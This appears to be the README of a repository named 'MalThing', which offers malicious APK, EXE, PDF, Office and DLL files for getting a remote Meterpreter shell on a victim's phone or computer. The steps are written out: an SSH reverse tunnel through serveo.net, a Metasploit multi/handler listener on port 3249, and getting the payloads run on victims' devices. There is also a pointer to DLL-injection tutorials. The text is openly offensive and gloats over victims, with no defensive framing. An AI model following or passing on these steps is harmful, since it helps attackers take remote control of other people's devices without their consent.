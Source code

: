__  __       _ _____ _     _
|  \/  | __ _| |_   _| |__ (_)_ __   __ _
| |\/| |/ _` | | | | | '_ \| | '_ \ / _` |
| |  | | (_| | | | | | | | | | | | | (_| |
|_|  |_|\__,_|_| |_| |_| |_|_|_| |_|\__, |
                                    |___/

A bunch of malicius thing to get a meterpreter shell

how to control this MalThing to create a METERPRETER SHELL!!!

MAKE SURE YOU HAVE AN INTERNET ACCESS!!!

1.install open ssh with "apt-get install openssh"

2.type "ssh -R 3249:localhost:3249 serveo.net"

3.open msfconsole run listener with multi/handler setup and with your localhost and port=3249

3.install and run the apk on your victime phone.....make sure your victim phone had a internet access(FOR THE MalAPK FILE)

3.Run it on the victim computer.....make sure your victim computer had a internet access(FOR THE MalEXE,MalMS,MalPDF)

4.and get a METERPRETER SHELL!!!!!HAHAHAHAHA

PS:For the dll....search for how to inject dll on process or watch this https://www.youtube.com/watch?v=yKoD5Oy8CKQ&t=338s
